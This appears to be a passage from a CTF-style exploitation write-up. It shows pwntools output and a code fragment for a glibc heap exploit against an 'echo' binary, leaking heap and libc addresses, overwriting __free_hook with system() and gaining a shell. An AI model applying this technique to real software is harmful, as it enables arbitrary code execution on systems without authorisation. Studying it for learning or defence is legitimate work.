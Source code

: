 ```
❯ python a.py
[+] Starting local process './echo': pid 40397
[*] Filling tcache bin 0x100
[*] Allocating 0x100
[*] Allocating 0x1f0
[*] Allocating 0x1e0
[*] Allocating 0x1d0
[*] Allocating 0x1c0
[*] Allocating 0x1b0
[*] Allocating 0x1a0
[*] Allocating 0x100 (overflowing)
[*] Allocating 0x1f0 (overflowing)
[*] Allocating 0x1e0 (overflowing)
[*] Allocating 0x1d0 (overflowing)
[*] Allocating 0x1c0 (overflowing)
[*] Allocating 0x1b0 (overflowing)
[*] Allocating 0x1a0
[*] Allocating 0x100 (leaking)
[*] Heap : 0x5593f03dc000
[*] Allocating 0x30
[*] Allocating 0x120
[*] Allocating 0x30 (overflowing)
[*] Allocating 0x120 (moving to unsorted)
[*] Allocating 0x120 (leaking)
[*] Libc : 0x7fdbcd400000
[*] Allocating 0x30 (exploit overlapping chunks)
[*] Allocating 0x120 twice, overwriting __free_hook and triggering it
[*] Switching to interactive mode
$ whoami
arget
$ pwd
/home/arget
$ 
```
And we have shell! Remember to adjust `deltat`, you may need to increase it, especially when attacking a remote target.

### An annoying echo
In fact, fuck it! I don't want a shell. After overwriting `__free_hook`, any string we send to the program will be passed to `system()` when its chunk gets freed, so we would be able to run commands through our little program. This way we don't even need to introduce "/bin/sh;". This also means that the first `free()` after we overwrite its hook will be a call to `system(&&system)`, and so we would first get an ugly `sh: line 1: $'@\364\204\367\377\177': command not found`, but after that everything will work just fine, we would be able to execute any command (as long as its length is constrained to 512 bytes).
```python
data += p64(libc + 0x3ed8e8) # Pointer to __free_hook as next entry in list
create_chunk(0x30, data)

log.info("Allocating 0x120 twice, overwriting __free_hook and triggering it")
# Will first remove chunk from list and then allocate a pointer to __free_hook
create_chunk(0x120, p64(system)[:6])

r.clean()
r.interactive()
```
```
$ pwd
pwd
/home/arget
$ whoami
whoami
arget
```